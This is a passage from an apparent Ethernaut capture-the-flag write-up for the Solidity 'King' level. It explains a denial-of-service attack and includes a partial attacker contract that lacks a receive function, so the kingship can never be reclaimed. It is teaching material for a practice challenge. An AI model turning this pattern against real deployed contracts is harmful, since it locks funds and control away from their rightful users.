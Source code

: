 ### References

* https://docs.soliditylang.org/en/v0.8.18/internals/layout_in_storage.html

## 09 King

To beat this level, we need to comply with

```solidity
instance._king() != address(this)
```

i.e. Take away the factory's _kingship_ of the contract.

### Solution

First, let's take a look at this `receive()` function

```solidity
receive() external payable {
  require(msg.value >= prize || msg.sender == owner);
  payable(king).transfer(msg.value);
  king = msg.sender;
  prize = msg.value;
}
```

The player can be `king` if they send more ETH than the current prize, *BUT*, the `owner` can be king anytime their want, and they exercise that right just before checking the level conditions:

```solidity
(bool result,) = address(instance).call{value:0}("");
```

Also, and this is important, if the claimant passes the control of the first line, they have to transfer what they sent to the incumbent `king`.

So, to beat this level, just send a `msg.value` of ETH greater than the current price, and prevent any future claimant to fully execute the `receive()` function by not being able to receive the incumbent king's prize.

```solidity
contract KingAttacker {
  // ... SNIP

  function attack() external {
    // will be able to be king, as msg.value = prize
    // as the owner contract do have a receive() function,
    // they will be able to get their price.
    (bool result,) = challengeAddress.call{value: 0.001 ether}("");
    result;
  }

  // this contract does not have a receive function,
  // preventing the owner of the contract to take over kingship back.
}
```
